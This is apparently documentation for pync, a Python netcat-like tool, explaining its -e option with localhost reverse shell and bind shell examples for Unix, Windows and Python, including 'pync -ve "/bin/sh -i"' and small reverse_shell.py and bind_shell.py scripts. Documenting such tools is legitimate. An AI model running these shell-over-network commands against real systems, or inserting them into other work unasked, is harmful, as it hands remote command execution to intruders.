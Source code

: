 ========================
Remote Command Execution
========================

.. warning::
   | * Be CAREFUL and RESPONSIBLE with this
     functionality.
   | * Please DO NOT use this functionality
     for evil purposes.

The **-e** option allows you to execute a process and have that process' stdin/stdout/stderr
be connected to the network socket.

Any data coming in from the network will go to the process' stdin and any
data coming from the process' stdout/stderr will go out to the network.

For example, we can create an interactive shell
to execute commands on a remote machine.

A Simple Reverse Shell
======================
1. Create a local server that will listen for the reverse shell connection:

.. tab:: Unix

   .. code-block:: sh
   
      pync -vl localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -vl localhost 8000

.. tab:: Python

   .. code-block:: python
   
      from pync import pync
      pync('-vl localhost 8000')

2. On another console, connect back to the server and
   execute the shell:

.. tab:: Unix

   .. code-block:: sh

      pync -ve "/bin/sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -ve "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      # reverse_shell.py
      import platform
      from pync import pync

      command = '/bin/sh -i'
      if platform.system() == 'Windows':
          command = 'cmd /q'

      pync('-ve "{}" localhost 8000'.format(command))

There should now be a prompt on the server console that
allows you to remotely execute commands on the client machine.

A Simple Bind Shell
===================
1. Create a server on port 8000 that executes the shell upon
   connection:

.. tab:: Unix

   .. code-block:: sh

      pync -vle "/bin/sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -vle "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      # bind_shell.py
      import platform
      from pync import pync

      command = '/bin/sh -i'
      if platform.system() == 'Windows':
          command = 'cmd /q'

      pync('-vle "{}" localhost 8000'.format(command))

2. On another console, connect to the server to
   interact with the shell:

.. tab:: Unix

   .. code-block:: sh

      pync -v localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -v localhost 8000

.. tab:: Python

   .. code-block:: python

      from pync import pync
      pync('-v localhost 8000')

There should now be a prompt on the client console that
allows you to remotely execute commands on the server machine.

.. raw:: html

   <br>
   <hr>

:SEE ALSO:

* :doc:`../options/execute`
* :doc:`../options/listen`
* :doc:`../options/verbose`

